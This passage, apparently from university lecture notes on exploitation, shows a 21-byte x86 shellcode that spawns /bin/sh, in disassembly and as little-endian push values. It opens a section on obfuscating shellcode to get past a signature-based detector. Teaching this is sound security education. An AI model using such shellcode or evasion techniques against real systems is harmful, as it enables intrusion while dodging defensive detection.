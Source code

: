 ``` {.c}
  return;
}
```

In this scheme, the signature is looking for some possibly shell code
indicative instruction, like `mov al, 0xb` or `xor ecx,ecx` which is
followed by an `int 0x80` at some point later. This signature is,
clearly, a lot harder to defeat with the shell code we've been using so
far. What to do?!

Obfuscating Shell Code
----------------------

In the community, it is generally considered that signature matching
schemes can be easily defeated with *obfuscated* and *polymorphic* shell
code. In these variants, the shell code is some how changed dynamically
such that it will pass a signature matching scheme.

We will focus on simple obfuscated shell code scheme which will encode
the shell code portion the program and then use a decoder to decode the
shell code prior to execution. You can imagine expanding this scheme to
polymorphic shell code, where by each version of the shell code changes
... but that might be a discussion for another day (or year).

### Simple Push Based Obfuscation

To start, let's make the observation that we can rewrite our shell code
for our 21 byte shell code using a series of push commands followed by a
call to `esp` (or a jmp).

Here are the bytes to our small shell code from objdump:

``` {.example}
8048060:    31 c9                   xor    ecx,ecx
 8048062:   f7 e1                   mul    ecx
 8048064:   50                      push   eax
 8048065:   68 6e 2f 73 68          push   0x68732f6e
 804806a:   68 2f 2f 62 69          push   0x69622f2f
 804806f:   89 e3                   mov    ebx,esp
 8048071:   b0 0b                   mov    al,0xb
 8048073:   cd 80                   int    0x80
```

First, I want to conver this into little-endian encode 4-byte sequences
that I can push onto the stack. I've written a script to do this
`le-foourbyte.py` and is provided in the classed tools directory. Here's
an example of using it on this shell code:

``` {.example}
user@si485H-base:demo$ printf $(./hexify.sh smallest_shell) | ./le-fourbytes.py -
0xe1f7c931
0x2f6e6850
0x2f686873
0x8969622f
0xcd0bb0e3
0x90909080
```
